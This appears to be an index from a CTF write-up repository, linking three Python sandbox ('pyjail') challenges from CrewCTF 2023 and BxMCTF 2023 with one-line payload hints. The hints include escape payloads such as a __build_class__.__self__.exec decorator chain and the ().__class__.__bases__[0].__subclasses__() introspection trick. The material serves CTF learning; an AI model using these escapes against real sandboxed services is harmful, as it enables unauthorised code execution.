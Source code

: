 # Index
## pyjail
- [starship CrewCTF 2023](./crewCTF-2023/MISC-starship-1/solution.md) character limit: `@^_":,.` and acsii letters; type: `@__build_class__.__self__.exec\r@__build_class__.__self__.input\rclass\x0cx:pass`
- [Bonus_The_Revenge_of_Checkpass_1 BxMCTF 2023](./BxMCTF-23/Pwn-Bonus_The_Revenge_of_Checkpass_1/solve.md) `eval(inp, {'__builtins__': None}, None)`; type: ``().__class__.__bases__[0].__subclasses__()``
- [Username_Decorator BxMCTF 2023](./BxMCTF-23/Web-Username_Decorator/solve.md) Flask escape; type: `().__class__.__bases__[0].__subclasses__()`
